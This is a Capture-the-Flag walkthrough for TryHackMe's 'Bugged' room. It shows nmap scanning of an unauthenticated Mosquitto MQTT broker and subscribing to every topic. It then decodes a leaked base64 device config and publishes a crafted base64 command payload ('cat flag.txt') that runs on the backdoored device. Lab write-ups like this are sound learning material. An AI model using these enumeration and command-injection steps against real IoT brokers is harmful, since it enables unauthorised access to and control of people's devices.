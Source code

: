 ```yaml
---
title: Bugged VM
date: 2023-03-06 02:47:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [nmap, mqtt, mosquitto, wireshark]
published: true
---
```


## nmap

```shell
sudo nmap -p- 10.10.108.171 -vvvv -T4
sudo nmap -sC -sV -O -p1883 10.10.108.171

PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 2.0.14
```

```shell
PORT     STATE SERVICE                  REASON         VERSION
1883/tcp open  mosquitto version 2.0.14 syn-ack ttl 60
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/publish/bytes/sent: 1108
|     $SYS/broker/load/sockets/1min: 1.67
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/messages/stored: 38
|     $SYS/broker/messages/received: 9063
|     $SYS/broker/load/publish/sent/15min: 2.52
|     $SYS/broker/load/bytes/sent/5min: 673.70
|     $SYS/broker/load/publish/sent/1min: 33.81
|     $SYS/broker/subscriptions/count: 5
|     $SYS/broker/clients/active: 2
|     $SYS/broker/clients/inactive: 1
|     $SYS/broker/publish/bytes/received: 308061
|     $SYS/broker/messages/sent: 9195
|     $SYS/broker/clients/disconnected: 1
|     $SYS/broker/load/bytes/sent/15min: 468.75
|     $SYS/broker/clients/total: 3
|     $SYS/broker/load/sockets/15min: 0.20
|     $SYS/broker/publish/messages/sent: 134
|     $SYS/broker/load/messages/received/1min: 93.65
|     $SYS/broker/load/messages/received/15min: 90.34
|     patio/lights: {"id":16405124934517910958,"color":"BLUE","status":"ON"}
|     storage/thermostat: {"id":1632603447202492969,"temperature":23.995878}
|     $SYS/broker/load/bytes/received/1min: 4335.15
|     kitchen/toaster: {"id":11835886495264240745,"in_use":true,"temperature":152.60582,"toast_time":242}
|     $SYS/broker/load/sockets/5min: 0.43
|     $SYS/broker/bytes/received: 431139
|     $SYS/broker/load/connections/5min: 0.44
|     $SYS/broker/retained messages/count: 38
|     frontdeck/camera: {"id":13258612146123966195,"yaxis":-46.27411,"xaxis":-28.1288,"zoom":2.6762495,"movement":true}
|     $SYS/broker/load/publish/sent/5min: 7.27
|     $SYS/broker/store/messages/count: 38
|     $SYS/broker/load/messages/sent/1min: 127.46
|     $SYS/broker/uptime: 6017 seconds
|     $SYS/broker/load/bytes/received/15min: 4278.39
|     $SYS/broker/load/messages/received/5min: 90.86
|     livingroom/speaker: {"id":12708993900896013872,"gain":44}
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/bytes/sent/1min: 1818.23
|     $SYS/broker/clients/maximum: 3
|     $SYS/broker/load/connections/1min: 1.83
|     $SYS/broker/load/bytes/received/5min: 4280.56
|     $SYS/broker/load/messages/sent/5min: 98.12
|     $SYS/broker/bytes/sent: 42064
|     $SYS/broker/store/messages/bytes: 279
|     $SYS/broker/load/messages/sent/15min: 92.85
|_    $SYS/broker/load/connections/15min: 0.20
```



## 1883 - Pentesting MQTT 

Mosquitto is a message broker that uses MQTT protocol to transfer messages between your toasters. JK, well not really, it transfers messages between its server and its IoT devices. We can connect to this using mosquitto and subscribe to recieve messages with mosquitto sub.

using [mosquitto sub](https://mosquitto.org/man/mosquitto_sub-1.html) we can subscribe to any of the topics `-t` we found with the service scan and print the messages it recieves. We can also filter out messages with `-T`.

It's recommended that you use TLS encrypted connections or else any messages you send/recieve are in plain text.

Capturing out request in wireshark we can see this isnt using an encrypted TLS connection.

We can capture ll comments with `-t '#'`

```shell
mosquitto_sub -h 10.10.108.171 -p 1883 -t '#'
```

```shell
{"id":6476193693900882290,"color":"RED","status":"OFF"}
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
{"id":9254039711038327212,"gain":49}
```

```shell
┌──(oskar㉿kali)-[~/Scripts/mqtt/python-mqtt-client-shell]
└─$ echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==" | base64 -d
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}         
```

This base64 decoded: We can use the pub topic to open up a listener with mosquito sub:

1. `mosquitto_sub -h 10.10.108.171 -p 1883 -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub`
2. Send through a test with another terminal `mosquitto_pub -h 10.10.108.171 -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m test` and should recieve a response.
3. We get another base64 to decode that give suw what we need to continue. We can then encode another payload with base64: `echo '{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}' | base64`
4. and send this through to get our encoded flag: `mosquitto_pub -h 10.10.108.171 -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0K`
